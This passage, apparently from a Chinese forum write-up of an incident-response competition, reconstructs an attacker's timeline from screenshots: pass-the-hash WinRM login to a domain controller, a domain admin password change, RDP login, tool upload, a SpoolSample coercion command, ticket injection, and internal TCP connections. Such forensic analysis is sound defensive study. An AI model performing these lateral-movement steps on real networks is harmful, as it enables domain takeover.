[href="forum.php?mod=attachment&aid=Mjc0ODU2OHxlNjEyMzQ5NHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU2OHxlNjEyMzQ5NHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 15:05 上传


`5.27.png` (68.81 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODU2OXwwNTM0MGQyZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU2OXwwNTM0MGQyZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 15:05 上传

24/12/18 10:31:08 攻击者通过`winrm`使用`administrator`哈希登陆`dc02`


`5.28.png` (71.09 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODU3MHw3ODg4YjEyYXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU3MHw3ODg4YjEyYXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 15:05 上传

24/12/18 10:31:20 修改域管理员密码


`5.29.png` (92.13 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODU3MXxhMTg5NjVlOXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU3MXxhMTg5NjVlOXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 15:05 上传

24/12/18 10:31:28 RDP登陆


`5.30.png` (62.46 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODU3Mnw4ZDJiOGM1NHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU3Mnw4ZDJiOGM1NHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 15:05 上传

24/12/18 10:31:49-24/12/18 10:31:50 上传黑客工具


`5.31.png` (122.71 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODU3M3w5ZTAwMDI1OXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU3M3w5ZTAwMDI1OXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 15:05 上传

24/12/18 10:48:39 执行命令`SpoolSample.exe dc03 dc02`


`5.32.png` (64.13 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODU2M3w0ZjQ1NTY3MHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU2M3w0ZjQ1NTY3MHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 10:53:02.000 注入票据


`5.33.png` (249.23 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODU2NHw1NDZhOTZlMHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU2NHw1NDZhOTZlMHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 16:35:22  攻击者使用`333.exe`工具使10.0.11.6与10.0.11.8进行tcp连接


`5.34.png` (120.09 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODU2NXw3Yjg1YTgxZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU2NXw3Yjg1YTgxZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 16:37:14 攻击者使用`333.exe`工具使10.0.11.6与10.0.11.10进行tcp连接

应急响应比赛附件下载链接：

链接: [//pan.baidu.com/s/1vB0HXswYecvFmGutw9HnDA?pwd=du2h" target="_blank" rel="noopener noreferrer nofollow"](https://pan.baidu.com/s/1vB0HXswYecvFmGutw9HnDA?pwd=du2h:rel="nofollow noopener" href="https)

提取码: du2h


`5.35.png` (163.95 KB, 下载次数: 2)


[href="forum.php?mod=attachment&aid=Mjc0ODU2Nnw1ZDhiNzc2OXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU2Nnw1ZDhiNzc2OXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传
